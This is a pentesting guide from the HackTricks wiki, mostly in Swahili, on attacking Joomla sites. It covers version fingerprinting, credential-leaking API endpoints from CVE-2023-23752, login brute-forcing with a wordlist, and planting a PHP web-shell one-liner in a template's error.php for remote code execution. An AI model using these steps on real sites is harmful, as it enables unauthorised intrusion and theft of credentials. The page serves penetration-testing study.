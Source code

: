 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Takwimu za Joomla

Joomla inakusanya baadhi ya [takwimu za matumizi](https://developer.joomla.org/about/stats.html) zisizo na majina kama vile mgawanyiko wa toleo la Joomla, PHP na toleo la hifadhidata na mifumo ya uendeshaji ya seva zinazotumika kwenye usakinishaji wa Joomla. Takwimu hizi zinaweza kuombwa kupitia [API](https://developer.joomla.org/about/stats/api.html) yao ya umma.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Angalia **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Version

* Katika **/administrator/manifests/files/joomla.xml** unaweza kuona toleo.
* Katika **/language/en-GB/en-GB.xml** unaweza kupata toleo la Joomla.
* Katika **plugins/system/cache/cache.xml** unaweza kuona toleo la takriban.

### Automatic
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology ni sehemu kuhusu skana za CMS**](./#cms-scanners) ambazo zinaweza skana Joomla.

### API Ufunuo wa Taarifa Bila Uthibitisho:

Toleo Kuanzia 4.0.0 hadi 4.2.7 lina hatari ya ufunuo wa taarifa bila uthibitisho (CVE-2023-23752) ambayo itatoa creds na taarifa nyingine.

* Watumiaji: `http://<host>/api/v1/users?public=true`
* Faili ya Mipangilio: `http://<host>/api/index.php/v1/config/application?public=true`

**Moduli ya MSF**: `scanner/http/joomla_api_improper_access_checks` au script ya ruby: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Unaweza kutumia [script](https://github.com/ajnik/joomla-bruteforce) hii kujaribu kufanya brute force kwenye kuingia.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Ikiwa umeweza kupata **admin credentials** unaweza **RCE ndani yake** kwa kuongeza kipande cha **PHP code** ili kupata **RCE**. Tunaweza kufanya hivi kwa **kubadilisha** **template**.

1. **Bonyeza** kwenye **`Templates`** chini kushoto chini ya `Configuration` ili kuleta menyu ya templates.
2. **Bonyeza** kwenye jina la **template**. Hebu chague **`protostar`** chini ya kichwa cha safu ya `Template`. Hii itatuletea kwenye ukurasa wa **`Templates: Customise`**.
3. Hatimaye, unaweza kubonyeza kwenye ukurasa ili kuleta **chanzo cha ukurasa**. Hebu chague ukurasa wa **`error.php`**. Tutongeza **PHP one-liner ili kupata utekelezaji wa code** kama ifuatavyo:
1. **`system($_GET['cmd']);`**
4. **Hifadhi & Funga**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla Exploitation Script ambayo **inainua XSS hadi RCE au Uthibitisho Mwingine wa Kihatarishi**. Kwa maelezo zaidi angalia [**hii chapisho**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Inatoa **msaada kwa Joomla Versions 5.X.X, 4.X.X, na 3.X.X, na inaruhusu:**
* _**Privilege Escalation:**_ Inaunda mtumiaji katika Joomla.
* _**(RCE) Built-In Templates Edit:**_ Hariri Templates za Built-In katika Joomla.
* _**(Custom) Custom Exploits:**_ Custom Exploits kwa Plugins za Tatu za Joomla.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
